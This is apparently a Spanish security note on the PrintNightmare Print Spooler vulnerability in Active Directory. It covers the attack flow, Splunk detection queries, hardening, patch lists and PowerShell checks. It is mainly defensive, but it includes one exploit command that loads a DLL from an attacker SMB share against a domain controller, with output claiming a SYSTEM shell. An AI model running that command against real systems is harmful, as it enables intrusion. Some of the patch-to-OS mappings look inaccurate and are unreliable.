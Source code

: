 # 🛑 PrintNightmare en Active Directory

---

## 📝 ¿Qué es PrintNightmare?

| Concepto      | Descripción                                                                                                 |
|---------------|------------------------------------------------------------------------------------------------------------|
| **Definición**| PrintNightmare es un conjunto de vulnerabilidades críticas en el servicio Print Spooler de Windows que permite ejecución remota de código y/o escalada de privilegios. |
| **Requisito** | El atacante debe tener acceso a la red y el Print Spooler debe estar activo en el sistema objetivo (servidores, estaciones, DCs).                |

---

## 🛠️ ¿Cómo funciona el ataque?

| Fase             | Acción                                                                                         |
|------------------|------------------------------------------------------------------------------------------------|
| **Conexión**     | El atacante se conecta al servicio Print Spooler vía RPC/SMB, normalmente usando autenticación de dominio.|
| **Carga**        | Carga un controlador de impresora (DLL) malicioso, abusando de la función AddPrinterDriverEx.  |
| **Ejecución**    | El controlador malicioso se ejecuta como SYSTEM, permitiendo RCE o escalada de privilegios.    |
| **Persistencia** | Puede usarse para mantener acceso privilegiado si no se parchea o desactiva el servicio.        |

---

## 💻 Ejemplo práctico

```bash
# Uso de herramienta pública para explotar PrintNightmare:
python3 CVE-2021-34527.py <DC_IP> <'DOMAIN/user:pass'> '\\attacker\evil.dll'
```

```
[*] Connecting to the target Print Spooler service...
[*] Uploading malicious DLL via AddPrinterDriverEx...
[*] Triggering DLL execution as SYSTEM...
[+] SYSTEM shell obtained!
```

---

## 📊 Detección en logs y SIEM

| Campo clave                   | Descripción                                                                 |
|-------------------------------|----------------------------------------------------------------------------|
| **EventCode = 808, 316, 307** | Eventos de creación/carga de impresora o controlador en Print Service.      |
| **Proceso spoolsv.exe**       | Procesos hijackeados o DLLs cargadas desde rutas no estándar.              |
| **Cambios en registro Print** | Modificación de claves de registro asociadas a drivers de impresora.        |
| **Sysmon ID 7 / ID 1**        | Carga de DLLs sospechosas o ejecución de comandos fuera de contexto.       |

### Query Splunk básica

```splunk
index=dc_logs sourcetype=WinEventLog:Microsoft-Windows-PrintService/Operational (EventCode=808 OR EventCode=316 OR EventCode=307)
| table _time, ComputerName, UserID, Param1, Param2
```

---

## 🔎 Queries completas para más investigación

### 1. Detección de cargas de drivers desde rutas inusuales

```splunk
index=sysmon EventCode=7 Image="*spoolsv.exe" NOT (ImageLoaded="C:\\Windows\\System32\\*")
| table _time, Computer, Image, ImageLoaded, User
```

### 2. Creación de impresoras/controladores fuera de horario o por usuarios no admins

```splunk
index=dc_logs sourcetype=WinEventLog:Microsoft-Windows-PrintService/Operational (EventCode=316 OR EventCode=808)
| where UserID!="S-1-5-18"
| stats count by _time, ComputerName, UserID, Param1
```

### 3. Cambios en el registro Print Spooler

```splunk
index=sysmon EventCode=13 TargetObject="*Print*"
| table _time, Computer, TargetObject, Details, User
```

### 4. Ejecución de comandos SYSTEM anómalos vía spoolsv.exe

```splunk
index=sysmon EventCode=1 ParentImage="*spoolsv.exe"
| table _time, Computer, CommandLine, User
```

### 5. Tráfico RPC/SMB anómalo hacia spoolsv.exe

```splunk
index=network_logs dest_port=445 OR dest_port=139 process="spoolsv.exe"
| stats count by src_ip, dest_ip, process
| where count > 10
```

---

## 🦾 Hardening y mitigación

| Medida                                           | Descripción                                                                                 |
|--------------------------------------------------|--------------------------------------------------------------------------------------------|
| **Parchear sistemas**                            | Instala los parches más recientes de Microsoft para PrintNightmare y variantes.             |
| **Desactivar Print Spooler donde no sea necesario** | `Stop-Service Spooler` y `Set-Service Spooler -StartupType Disabled` en DCs y servidores críticos.  |
| **Limitar instalación de drivers**               | GPO: “Allow Print Spooler to accept client connections” y “Package Point and Print - Approved Servers”. |
| **Monitorización continua**                      | Vigilar logs de PrintService y Sysmon para detectar cargas de DLLs/controladores anómalos.  |
| **Bloquear tráfico SMB innecesario**             | Restringir puertos 445/139 a lo mínimo posible entre estaciones y servidores.               |
| **Auditoría y alertas**                          | Configurar alertas SIEM para eventos Print Spooler críticos y cargas de DLL no autorizadas. |

---

## 🔧 Parches y actualizaciones

| Parche/Update | Descripción                                                                                  |
|---------------|----------------------------------------------------------------------------------------------|
| **KB5005010** | Windows 11 - Parche crítico principal para CVE-2021-34527 (PrintNightmare).                 |
| **KB5004945** | Windows 10 21H1/21H2 - Correcciones completas para todas las variantes de PrintNightmare.   |
| **KB5005033** | Windows Server 2022 - Parche esencial que corrige vulnerabilidades RCE en Print Spooler.    |
| **KB5004954** | Windows Server 2019 - Mitigación completa de escalada de privilegios via Print Spooler.     |
| **KB5004946** | Windows Server 2016 - Correcciones de seguridad críticas para Print Spooler.                |
| **KB5005573** | Windows Server 2012 R2 - Parche de seguridad para sistemas legacy afectados.               |

### Configuraciones de registro post-parche

```powershell
# Configurar restricciones de Point and Print (post-parche)
Set-ItemProperty -Path "HKLM:\SOFTWARE\Policies\Microsoft\Windows NT\Printers\PointAndPrint" -Name "RestrictDriverInstallationToAdministrators" -Value 1
Set-ItemProperty -Path "HKLM:\SOFTWARE\Policies\Microsoft\Windows NT\Printers\PointAndPrint" -Name "NoWarningNoElevationOnInstall" -Value 0
Set-ItemProperty -Path "HKLM:\SOFTWARE\Policies\Microsoft\Windows NT\Printers\PointAndPrint" -Name "UpdatePromptSettings" -Value 0

# Habilitar logs detallados del Print Spooler
Set-ItemProperty -Path "HKLM:\SYSTEM\CurrentControlSet\Control\Print" -Name "LogLevel" -Value 2
```

### Verificación de aplicación de parches

```powershell
# Verificar que los parches estén instalados
Get-HotFix -Id KB5005010, KB5004945, KB5005033, KB5004954, KB5004946

# Verificar versión del Print Spooler
Get-WmiObject -Class Win32_SystemDriver | Where-Object {$_.Name -eq "spoolsv"}
```

### Actualizaciones críticas de seguridad relacionadas

- **CVE-2021-34527**: PrintNightmare RCE principal (KB5005010, KB5004945)
- **CVE-2021-1675**: PrintNightmare escalada de privilegios local (KB5004945)
- **CVE-2021-34481**: Bypass de restricciones Point and Print (KB5005652)
- **CVE-2022-21999**: Nueva variante PrintNightmare (KB5010793)

### Validación post-parche

```powershell
# Script para validar que la configuración está segura
$regPath = "HKLM:\SOFTWARE\Policies\Microsoft\Windows NT\Printers\PointAndPrint"
$restrictDrivers = Get-ItemProperty -Path $regPath -Name "RestrictDriverInstallationToAdministrators" -ErrorAction SilentlyContinue
if ($restrictDrivers.RestrictDriverInstallationToAdministrators -eq 1) {
    Write-Host "✓ Restricción de drivers configurada correctamente" -ForegroundColor Green
} else {
    Write-Host "✗ ALERTA: Restricción de drivers NO configurada" -ForegroundColor Red
}
```

---

## 🧑‍💻 ¿Cómo revisar si Print Spooler está activo y expuesto?

```powershell
Get-Service -Name Spooler
Get-Printer
```
O comprobar puertos abiertos y sesiones RPC/SMB activas en DCs.

---

## 📚 Referencias

- [Microsoft Security Advisory CVE-2021-34527](https://msrc.microsoft.com/update-guide/vulnerability/CVE-2021-34527)
- [PrintNightmare - HackTricks](https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/printnightmare)
- [Print Spooler Service Guidance - Microsoft Docs](https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/print-spooler-security-guidance)
